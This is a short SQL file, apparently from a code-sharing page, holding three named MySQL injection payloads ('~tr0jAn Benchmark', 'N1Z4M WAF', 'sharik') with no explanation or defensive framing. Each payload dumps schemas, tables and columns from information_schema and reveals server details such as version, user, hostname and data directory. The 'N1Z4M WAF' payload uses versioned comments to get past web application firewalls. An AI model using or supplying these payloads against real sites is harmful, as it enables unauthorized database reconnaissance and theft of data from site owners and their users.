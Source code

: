 ```sql
-- ~tr0jAn Benchmark
+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+

-- N1Z4M WAF
+/*!13337concat*/(0x3c616464726573733e3c63656e7465723e3c62723e3c68313e3c666f6e7420636f6c6f723d22526564223e496e6a6563746564206279204e315a344d3c2f666f6e743e3c68313e3c2f63656e7465723e3c62723e3c666f6e7420636f6c6f723d2223663364393361223e4461746162617365207e3e3e203c2f666f6e743e,database/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643936223e56657273696f6e207e3e3e203c2f666f6e743e,@@version,0x3c62723e3c666f6e7420636f6c6f723d2223306637363964223e55736572207e3e3e203c2f666f6e743e,user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643365223e506f7274207e3e3e203c2f666f6e743e,@@port,0x3c62723e3c666f6e7420636f6c6f723d2223346435613733223e4f53207e3e3e203c2f666f6e743e,@@version_compile_os,0x2c3c62723e3c666f6e7420636f6c6f723d2223366134343732223e44617461204469726563746f7279204c6f636174696f6e207e3e3e203c2f666f6e743e,@@datadir,0x3c62723e3c666f6e7420636f6c6f723d2223333130343362223e55554944207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223363930343637223e43757272656e742055736572207e3e3e203c2f666f6e743e,current_user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223383432303831223e54656d70204469726563746f7279207e3e3e203c2f666f6e743e,@@tmpdir,0x3c62723e3c666f6e7420636f6c6f723d2223396336623934223e424954532044455441494c53207e3e3e203c2f666f6e743e,@@version_compile_machine,0x3c62723e3c666f6e7420636f6c6f723d2223396630613838223e46494c452053595354454d207e3e3e203c2f666f6e743e,@@CHARACTER_SET_FILESYSTEM,0x3c62723e3c666f6e7420636f6c6f723d2223393234323564223e486f7374204e616d65207e3e3e203c2f666f6e743e,@@hostname,0x3c62723e3c666f6e7420636f6c6f723d2223393430313333223e53797374656d2055554944204b6579207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223613332363531223e53796d4c696e6b20207e3e3e203c2f666f6e743e,@@GLOBAL.have_symlink,0x3c62723e3c666f6e7420636f6c6f723d2223353830633139223e53534c207e3e3e203c2f666f6e743e,@@GLOBAL.have_ssl,0x3c62723e3c666f6e7420636f6c6f723d2223393931663333223e42617365204469726563746f7279207e3e3e203c2f666f6e743e,@@basedir,0x3c62723e3c2f616464726573733e3c62723e3c666f6e7420636f6c6f723d22626c7565223e,(/*!13337select*/(@a)/*!13337from*/(/*!13337select*/(@a:=0x00),(/*!13337select*/(@a)/*!13337from*/(information_schema.columns)/*!13337where*/(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=/*!13337concat*/(@a,table_schema,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,table_name,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,column_name,0x3c62723e))))a))+

-- sharik
(select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
```
